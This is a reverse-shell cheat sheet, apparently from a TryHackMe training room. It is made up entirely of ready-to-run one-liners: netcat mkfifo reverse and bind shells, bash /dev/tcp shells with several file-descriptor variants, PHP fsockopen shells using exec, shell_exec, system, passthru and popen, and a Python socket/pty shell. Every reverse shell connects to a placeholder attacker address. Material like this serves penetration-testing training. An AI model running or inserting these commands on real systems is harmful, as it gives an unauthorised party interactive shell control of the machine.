 `rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc ATTACKER_IP ATTACKER_PORT >/tmp/f`

`rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f`

**Normal Bash Reverse Shell**
```shell-session
target@tryhackme:~$ bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1 
```

**Bash Read Line** **Reverse Shell**
```shell-session
target@tryhackme:~$ exec 5<>/dev/tcp/ATTACKER_IP/443; cat <&5 | while read line; do $line 2>&5 >&5; done 
```

**Bash With File Descriptor 196** **Reverse Shell**
```shell-session
target@tryhackme:~$ 0<&196;exec 196<>/dev/tcp/ATTACKER_IP/443; sh <&196 >&196 2>&196 
```

**Bash With File Descriptor 5** **Reverse Shell**
```shell-session
target@tryhackme:~$ bash -i 5<> /dev/tcp/ATTACKER_IP/443 0<&5 1>&5 2>&5
```

#### PHP
**PHP Reverse Shell Using the exec Function**
```shell-session
target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);exec("sh <&3 >&3 2>&3");' 
```

**PHP Reverse Shell Using the shell_exec Function**
```shell-session
target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);shell_exec("sh <&3 >&3 2>&3");'
```

**PHP Reverse Shell Using the system Function**
```shell-session
target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);system("sh <&3 >&3 2>&3");' 
```

**PHP Reverse Shell Using the passthru Function**
```shell-session
target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);passthru("sh <&3 >&3 2>&3");'
```

**PHP Reverse Shell Using the popen Function**
```shell-session
target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);popen("sh <&3 >&3 2>&3", "r");' 
```


#### Python

**Python Reverse Shell by Exporting Environment Variables**
```shell-session
target@tryhackme:~$ export RHOST="ATTACKER_IP"; export RPORT=443; python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")' 
```
